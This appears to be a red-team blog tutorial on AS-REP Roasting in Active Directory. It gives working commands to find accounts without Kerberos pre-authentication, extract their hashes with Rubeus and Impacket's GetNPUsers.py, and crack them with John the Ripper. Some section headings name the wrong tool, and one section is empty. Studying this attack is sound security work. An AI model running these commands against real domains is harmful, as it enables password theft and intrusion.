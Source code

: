 ```yaml
---
title:  "Kerberos attacks 2-AS-REP Roasting "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 2-AS-REP Roasting"
categories:
  - Red-Teaming
toc: true
---
```


## AS-REP roasting 
 * If an Active Directory user has pre-authentication disabled, a vulnerability is exposed which can allow an attacker to perform an offline bruteforce attack against that user’s password.
 * This attack is commonly known as AS-REP Roasting in reference to Authentication Service Requests, a part of the process of authentication with Kerberos.
 * An attacker who is able to find a user with pre-authentication disabled can request an AS-REP ticket for that user and this will contain data encrypted with the user’s password.

<img src="/img/asrep/1.png" alt="Getting-gz" width="1000" height="200"> 

## AS-REP roasting attack consists of the following steps:
 * 1-Obtain access to a domain as an authenticated user.
 * 2-Use an LDAP filter or tools like PowerView’s Get-DomainUser feature to crawl the domain and identify user accounts with the Do not require Kerberos preauthentication  Property  enabled.
 * 3-Identify target account or accounts.
 * 4-Request a Kerberos  (TGT) from the KDC in the name of a target account. The KDC will respond with the TGT for the account, without requiring the account password as a pre-authentication.
 * 5-Using a tool like Wireshark, extract the user’s password hash from the AS-REP packet. It can be found in the enc-part section of the packet.
 * 6-Use a tool like HashCat or John the Ripper to extract a plaintext password from the captured hash.
## Terminology
```
KDC: Key Distribution Center # The trusted 3rd party / the Domain Controller
TGS: Ticket Granting Server  # A subset function of the KDC which issues service tickets
TGT: Ticket Granting Ticket  # A userbased ticket used to authenticate to the KDC
ST: Service Ticket           # Used to authenticate against services
SPN: Service Principal Name  #The name of a service on the network
```


##  enumerate User account with "Do not require pre-authentication"
```
Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name
```

<img src="/img/asrep/enum.png" alt="Getting-gz" width="1000" height="200"> 

```
Get-DomainUser -PreauthNotRequired -verbose| select name
```

<img src="/img/asrep/enum1.png" alt="Getting-gz" width="1000" height="200"> 

## ASREP Roasting with Impacket

```
Rubeus.exe asreproast
```

<img src="/img/asrep/rubeus.PNG" alt="Getting-gz" width="1000" height="200"> 

saved the extracted hash in the john crackable format inside a text file
```
Rubeus.exe asreproast /format:john /outfile:hash.txt
```

<img src="/img/asrep/save.png" alt="Getting-gz" width="1000" height="200"> 

## ASREP Roasting with ASREPRoast PowerShell Script




## ASREP Roasting with  GetUserSPNs.py

```
Import-Module .\powerview.ps1
Get-DomainUser | select name
```
<img src="/img/asrep/users.png" alt="Getting-gz" width="1000" height="200"> 

<img src="/img/asrep/users1.png" alt="Getting-gz" width="1000" height="200"> 
 
```
python3 GetNPUsers.py karim.net/ -usersfile  users.txt -dc-ip 192.168.128.140
```

<img src="/img/asrep/users10.png" alt="Getting-gz" width="1000" height="200"> 

```
python3 GetNPUsers.py karim.net/asrepuser -dc-ip 192.168.128.140
```

<img src="/img/asrep/kali.png" alt="Getting-gz" width="1000" height="200"> 
 
## crack hash with john
 
 ```
john tgt.txt -w=/usr/share/wordlists/rockyou.txt
```

<img src="/img/asrep/crack.ng" alt="Getting-gz" width="1000" height="200"> 

## AS-REP roasting Mitigation
* ensure that no users within the Active Directory domain have Pre-authentication disabled (it is enabled by default).

I finished part 2 in Kerberos attacks today waite me in the next part.


